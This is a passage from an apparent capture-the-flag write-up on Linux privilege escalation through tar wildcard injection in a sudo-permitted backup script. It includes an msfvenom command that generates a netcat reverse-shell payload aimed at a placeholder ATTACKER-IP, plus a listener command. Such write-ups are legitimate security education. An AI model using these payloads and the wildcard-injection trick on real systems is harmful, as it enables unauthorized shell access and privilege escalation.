 ```bash
# search for the file "user.txt" starting from the root, "/", directory
find / -name user.txt -type f 2>/dev/null
```

Lo and behold, the second 🚩 is just there waiting us!

![flag2](second-flag.jpg){: .normal width="65%"}

Let's check if user `jake` have any SUDO privileges:

![sudo-l](sudo-list.png)

It seems that `jake`, can run the `/opt/backups/backup.sh` file with the perimissions of user `michael`, who is its owner. Upon closer inspection of the file's contents, its job seems pretty straightforward:

![backup-sh-script](backup-sh.png){: .normal}

1. It creates a **tar archive** named `backup.tar`, using the `tar cf /opt/backups/backup.tar` command.
2. Instead of archiving a specified file, for instance, `tar cf /opt/backups/backup.tar backup.sh`, it uses the wildcard character, `*`, which means that it is archiving all files within the directory.

This is where things got dark really fast. I spent an awful lot of time researching and reading for this one, I even asked [ChatGPT](https://chat.openai.com/) 🤖, but I couldn't completely grasp the concept of [**wildcard injection**](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/). What finally did it for me was [Tib3rius](https://tryhackme.com/p/Tib3rius)' [walkthrough](https://youtu.be/EYqCHujNyHQ?t=2662)!

The gist of what I understood based on the above walkthrough is that we are trying to take advantage of the [**wildcard wildness**](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/) concept by passing files as command arguments. As Tib3rius explains:

> *An `*` *in Bash will take the names of all the files in the current directory and it will concatenate them using spaces. And it just so happens that arguments to executables are separated by spaces too. So, if you ever have an `*` after a command, and one of the files in the current directory just happens to very closely resemble an argument for that command, you can execute that command and pass the files as arguments!*

Armed with Tib3rius' explanation and GTFO's guidance on how to exploit [tar](https://gtfobins.github.io/gtfobins/tar/#sudo), this is how to do it:

1. Generate a payload with `msfvenom`:

    ```bash
    msfvenom -p cmd/unix/reverse_netcat LHOST=ATTACKER-IP LPORT=54321 R
    ```

    ![msfvenom-payload](msfvenom-payload.jpg)

2. Setup a listener:

    ```bash
    nc -lvnp 54321
    ```
